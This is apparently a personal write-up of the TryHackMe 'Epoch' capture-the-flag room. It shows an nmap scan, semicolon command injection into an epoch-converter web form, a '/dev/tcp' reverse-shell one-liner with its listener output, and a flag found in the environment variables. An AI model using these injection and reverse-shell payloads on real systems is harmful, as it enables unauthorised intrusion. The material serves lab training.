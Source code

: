 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Epoch
# DESCRIPTION       . Be honest, you have always wanted an online tool that could help you convert UNIX dates and timestamps! 
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/epoch
```

```
sudo nmap -sSVC -T5 -p- 10.10.244.195 -oN epoch 
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0149f4f3933591fb0fb129138cd8fc04 (RSA)
|   256 c7981b9901cb0538e1a090d23515c4dc (ECDSA)
|_  256 63f31bf18e078df8be4d81a43b7f9f8c (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Wed, 28 Feb 2024 16:44:05 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1184
|     Connection: close
|     <!DOCTYPE html>
|     <head>
|     <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css"
|     integrity="sha384-JcKb8q3iqJ61gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP+VmmDGMN5t9UJ0Z" crossorigin="anonymous">
|     <style>
|     body,
|     html {
|     height: 100%;
|     </style>
|     </head>
|     <body>
|     <div class="container h-100">
|     <div class="row mt-5">
|     <div class="col-12 mb-4">
|     class="text-center">Epoch to UTC convertor 
|     </h3>
|     </div>
|     <form class="col-6 mx-auto" action="/">
|     <div class=" input-group">
|     <input name="epoch" value="" type="text" class="form-control" placeholder="Epoch"
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Date: Wed, 28 Feb 2024 16:44:05 GMT
|     Content-Type: text/plain; charset=utf-8
|     Content-Length: 18
|     Allow: GET, HEAD
|     Connection: close
	|_    Method Not Allowed
```

#### PORT 80

- the web server is asking for an epoch as input; 

- however, the form is vulnerable to command injection by using `;` to inject UNIX* commands.

```
0
```

```
Thu Jan  1 00:00:00 UTC 1970
```

- However, if we use `;` to inject more commands, they are executed and the output is shown back to us.

```
1;ls;pwd;ls /home; ls -lah;whoami;mkdir .ssh; ls -lah
```

```
Thu Jan  1 00:00:01 UTC 1970
go.mod
go.sum
main
main.go
views
/home/challenge
challenge
total 14M
drwxr-xr-x 1 root root 4.0K Mar  2  2022 .
drwxr-xr-x 1 root root 4.0K Mar  2  2022 ..
-rw-r--r-- 1 root root  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 root root 3.7K Feb 25  2020 .bashrc
-rw-r--r-- 1 root root  807 Feb 25  2020 .profile
-rw-rw-r-- 1 root root  236 Mar  2  2022 go.mod
-rw-rw-r-- 1 root root  52K Mar  2  2022 go.sum
-rwxr-xr-x 1 root root  14M Mar  2  2022 main
-rw-rw-r-- 1 root root 1.2K Mar  2  2022 main.go
drwxrwxr-x 1 root root 4.0K Mar  2  2022 views
challenge
mkdir: cannot create directory '.ssh': Permission denied
total 14M
drwxr-xr-x 1 root root 4.0K Mar  2  2022 .
drwxr-xr-x 1 root root 4.0K Mar  2  2022 ..
-rw-r--r-- 1 root root  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 root root 3.7K Feb 25  2020 .bashrc
-rw-r--r-- 1 root root  807 Feb 25  2020 .profile
-rw-rw-r-- 1 root root  236 Mar  2  2022 go.mod
-rw-rw-r-- 1 root root  52K Mar  2  2022 go.sum
-rwxr-xr-x 1 root root  14M Mar  2  2022 main
-rw-rw-r-- 1 root root 1.2K Mar  2  2022 main.go
drwxrwxr-x 1 root root 4.0K Mar  2  2022 views

```


- In the example above, I tried creating the `.ssh` directory in my home path, next step being creating the `authorized_keys` file to allow me to place a public key in there, leading to SSH authorization using the private key.

- However, the path seems to be owned by root and access is denied.

- This is not really an impairment, as we can execute a command to connect back to a listener of ours, so we can still get access to the server. However, I wanted the SSH approach as it would've been more stable from the beginning.


```
1;sh -i >& /dev/tcp/IP/3132 0>&1
```

```
Listening on 0.0.0.0 3132
Connection received on 10.10.244.195 47616
sh: 0: can't access tty; job control turned off
$ whoami 
challenge
```

#### PRIVILEGE ESCALATION

- Privilege escalation wasn't needed; 
- During my checks I've found the flag by printing the environment variables with `env`.

